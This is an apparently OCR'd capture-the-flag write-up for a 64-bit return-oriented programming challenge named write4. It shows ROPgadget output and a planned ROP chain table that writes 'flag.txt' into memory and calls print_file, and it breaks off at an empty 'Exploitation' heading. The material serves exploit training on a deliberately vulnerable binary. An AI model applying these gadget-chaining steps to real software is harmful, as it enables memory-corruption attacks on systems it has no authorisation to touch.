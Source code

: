      # ROPgadget --binary write4|grep mov|grep ret
     0x00000000004005e2 : mov byte ptr [rip + 0x200a4f], 1 ; pop rbp ; ret
     0x0000000000400629 : mov dword ptr [rsi], edi ; ret
     0x0000000000400610 : mov eax, 0 ; pop rbp ; ret
     0x0000000000400628 : mov qword ptr [r14], r15 ; ret

We can use "mov [r14], r15"

But we must load r14, r15 to use it.

     # ROPgadget --binary write4|grep "pop r14"
     0x000000000040068c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
     0x000000000040068e : pop r13 ; pop r14 ; pop r15 ; ret
     0x0000000000400690 : pop r14 ; pop r15 ; ret
     0x000000000040068b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
     0x000000000040068f : pop rbp ; pop r14 ; pop r15 ; ret
     0x000000000040068d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret

So we have a tool write to a choosen address

     0x0400628 : mov qword ptr [r14], r15 ; ret
And to load the two registers :
     0x0400690 : pop r14 ; pop r15 ; ret

After that as before we can load rdi with our function parameter with a "pop rdi" gadget:

     0x0400693 : pop rdi ; ret

## Build the attack

1. Load r14, r15 with the writable memory address and "flag.txt" respectively.
2. mov [r14], r15
3. load rdi with memory address
4. Call print_file


|ropchain |comment|
|----------|-----|
| pop r14; pop r15 | pop gadget |
| @data | for r14 |
| flag.txt | for r15 |
| mov [r14], r15| write |
| pop rdi |set rdi |
| @data|@flag.txt|
| print_file|exploit|

## Exploitation
